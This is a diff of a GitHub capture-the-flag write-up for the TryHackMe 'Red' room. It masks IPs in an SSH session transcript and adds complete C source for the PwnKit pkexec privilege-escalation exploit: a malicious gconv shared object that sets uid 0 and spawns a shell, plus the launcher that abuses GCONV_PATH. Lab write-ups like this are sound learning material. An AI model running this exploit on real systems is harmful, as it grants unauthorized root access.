

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/red/readme.md, 3 parts joined by grey strips. Shown at 91% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/tryhackme/red/readme.md
+++ b/tryhackme/red/readme.md
@@ -180,14 +180,14 @@ Seems like I found the password for an ssh login.
 
 
 ```sh
-ssh blue@$IP
-The authenticity of host '10.10.147.35 (10.10.147.35)' can't be established.
+ssh blue@$IP -T
+The authenticity of host '$IP ($IP)' can't be established.
 ED25519 key fingerprint is SHA256:Jw5VYW4+TkPGUq5z4MEIujkfaV/jzH5rIHM6bxyug/Q.
 This host key is known by the following other names/addresses:
     ~/.ssh/known_hosts:15: [hashed name]
 Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
-Warning: Permanently added '10.10.147.35' (ED25519) to the list of known hosts.
-blue@10.10.147.35's password:
+Warning: Permanently added '$IP' (ED25519) to the list of known hosts.
+blue@$IP's password:
 Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-124-generic x86_64)
 
  * Documentation:  https://help.ubuntu.com
@@ -217,7 +217,7 @@ To check for new updates run: sudo apt update
 6 updates could not be installed automatically. For more details,
 see /var/log/unattended-upgrades/unattended-upgrades.log
 
-Last login: Mon Apr 24 22:18:08 2023 from 10.13.4.71
+Last login: Mon Apr 24 22:18:08 2023 from $IP
 blue@red:~$
 ```
 
@@ -254,0 +341,48 @@ blue@red:~$ I really didn't think you would make it this far
+evil-so.c:
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <unistd.h>
+
+void gconv() {}
+
+void gconv_init() {
+    setuid(0);
+    setgid(0);
+    setgroups(0);
+
+    execve("/bin/sh", NULL, NULL);
+}
+```
+
+exploit.c:
+```c
+#include <stdio.h>
+#include <stdlib.h>
+
+#define BIN "/usr/bin/pkexec"
+#define DIR "evildir"
+#define EVILSO "evil"
+
+int main()
+{
+    char *envp[] = {
+        DIR,
+        "PATH=GCONV_PATH=.",
+        "SHELL=ryaagard",
+        "CHARSET=ryaagard",
+        NULL
+    };
+    char *argv[] = { NULL };
+
+    system("mkdir GCONV_PATH=.");
+    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
+    system("mkdir " DIR);
+    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
+    system("cp " EVILSO ".so " DIR);
+
+    execve(BIN, argv, envp);
+
+    return 0;
+}
+```
````
Also changed, not shown: other parts of tryhackme/red/readme.md (+86 -0 lines).
